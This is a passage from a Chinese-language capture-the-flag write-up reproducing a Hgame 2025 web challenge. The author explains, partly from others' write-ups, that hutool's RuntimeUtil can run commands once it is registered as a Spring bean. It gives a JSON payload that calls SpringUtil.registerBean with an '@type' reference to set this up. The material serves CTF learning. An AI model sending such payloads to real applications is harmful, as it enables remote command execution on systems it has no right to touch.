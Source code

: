 后面找不到可行的思路了，开始借鉴网上的博客和 WP，需要寻找其他 bean 可利用的类，然而我不知道他们是如何筛选出目标来的，只知道最终找到的是 hutool 的 RuntimeUtil 具有命令执行的方法，然而该类并没有被注册，所以命令执行前需要先用 hutool 里的注册 bean 的方法。（或许还与反序列化有关？此处并未搞懂）

![](/img/Hgame2025复现/AANIbGG8nonCiCxqc8ncKEC1n1f.png)

通过 hutool 的 SpringUtil 注册 hutool 的 RuntimeUtil

```
{
    "beanName":"cn.hutool.extra.spring.SpringUtil",
    "methodName":"registerBean",
    "params":{
        "arg0":"execCmd",
        "arg1":{
            "@type":"cn.hutool.core.util.RuntimeUtil"
        }
    }
}
```
